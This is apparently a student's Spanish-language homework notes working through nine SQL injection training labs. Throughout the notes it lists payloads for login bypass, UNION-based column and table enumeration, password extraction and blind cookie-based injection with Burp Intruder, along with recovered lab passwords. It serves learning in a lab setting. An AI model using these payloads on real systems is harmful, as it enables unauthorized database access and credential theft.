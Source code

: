 #  Tarea #985 Realizar los ejercicios de SQL Injection

## 1. LAB 1 SQLi
    * category '+OR+1=1--

---
## 2. LAB 2 SQLi
    * username 
        * administrator'--

---
## 3. [LAB 3 SQLi Determining the number of columns return by a query](https://www.youtube.com/watch?v=GP6CK03nDvw)
    * '+UNION+SELECT+NULL,NULL--
        * Firefox =! Foxyproxy 

---
## 4. [LAB 4 SQLi UNION attack finding a column containing text](https://www.youtube.com/watch?v=SGBTC5D7DTs&t=651s) 
    * '+UNION+SELECT+'abcdef',NULL,NULL--
        * category=Corporate+gifts ' UNION SELECT NULL, '7GBykY', NULL--

---
## 5. [LAB 5 SQLi UNION attack retrieving data from other tables](https://www.youtube.com/watch?v=6Dsj5SqR944)
    * category=Corporate+gifts '
        * category=Corporate+gifts ' order by 3--
            * category=Corporate+gifts ' UNION select 'a', NULL--
            * category=Corporate+gifts ' UNION select 'a', 'a'--
    * '+UNION+SELECT+username,+password+FROM+users--
        * administrator > b40kore6a4it6t57qcld     

---
       
## 6. [LAB 6 SQLi UNION attack retrieving multiple values in a single column](https://www.youtube.com/watch?v=yRVYoqR9vrI)
* [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    * category=Gifts ' order by 1--
    * category=Gifts ' order by 2--
    * category=Gifts ' order by 3--
        * category=Gifts' UNION SELECT 'a', NULL-- 
        * category=Gifts ' UNION SELECT%20 NULL, 'a'--
            * category=Gifts ' UNION select NULL, username from users--
            * category=Gifts ' UNION select NULL, password from users--      
            * '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
                * administrator~mxe67qn75iadph7i4rl

## 7. [LAB 7 SQLi attack, querying the database type and version on MySQL and Microsoft](https://www.youtube.com/watch?v=7afmKPDaZtw&t=1s)
* En burp suit community enciende el "proxy" pones el link el laboratorio en el que trabajas "burp suite chromium" de ahi lo mandas al "repeater" y pones en lo siguiente 
    * '+UNION+SELECT+'abc','def'#
    * '+UNION+SELECT+@@version,+NULL#                            
![alt text](image-2.png)
![alt text](image-1.png)
![alt text](image.png)

* haz lo que se muestra en las imagenes y listo

## 8. [LAB 8 SQLi ](https://www.youtube.com/watch?v=JduM_dO8glw)
* '+UNION+SELECT+'abc','def'--
* '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    * users_kxxzwr
![alt text](image-4.png)

* '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    * '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kxxzwr'--
![alt text](image-6.png)    
![alt text](image-5.png)

* username_adjuvf
* password_xmshnc
* users_kxxzwr

* '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    *  '+UNION+SELECT+username_adjuvf,+password_xmshnc+FROM+users_kxxzwr--

![alt text](image-7.png)    

* administrator
* wobskest29imovks75ay
---

## 9.[LAB 9 SQLi Blind SQL injection with conditional responses](https://www.youtube.com/watch?v=W3zvXK9i75A) 

* ### "Proxy" y luego "Repeater" 
* TrackingId=xyz' AND '1'='1
![alt text](image-15.png)


*  TrackingId=xyz' AND '1'='2
![alt text](image-16.png)

* TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

![alt text](image-17.png)

*  TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
![alt text](image-18.png)

* TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
![alt text](image-19.png)

* ### Intruder
* TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§

![alt text](image-20.png)

*  Payload settings add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down. 

![alt text](image-21.png)

*  Settings tab, and the "Grep - Match"  add the value "Welcome back". 

![alt text](image-22.png)

* Cookie: TrackingId=A5wnpbmECJ7WwVJF' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'

* Cookie: TrackingId=ZyhiJiwjIThE9gYZ' and (select substring(password,§1§,1) from users where username='administrator')='§a§'--'; session=iU12vYKWPt8Nx0OyETqDVZwcKpXnOdXt


* Attack Type: [Cluster Bomb](https://www.youtube.com/watch?v=LBG_n9fr8sM&t=1546s)

![alt text](image-25.png)

* Payloads 1
![alt text](image-23.png)

* Payloads 2
![alt text](image-24.png)


* Armando la contraseña manualmente 

![alt text](image-26.png)

| POS 1  | POS 2  | POS 3  | POS 4  | POS 5  | POS 6  | POS 7  | POS 8  | POS 9  | POS 10 | POS 11 | POS 12 | POS 13 | POS 14 | POS 15 | POS 16 | POS 17 | POS 18 | POS 19 | POS 20 |
| ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ |
| Valor1 | e | 7| p | 2 | v | Valor7 | f | b | 4| d| 3| q| r| i| q| s| z| v| o|

663
e7p2vfb4d3qriqszvo

como la anterior mierda tarda un chingo tienes que reniciar casi todo. al chile que se pudra este laboratorio

![alt text](image-27.png)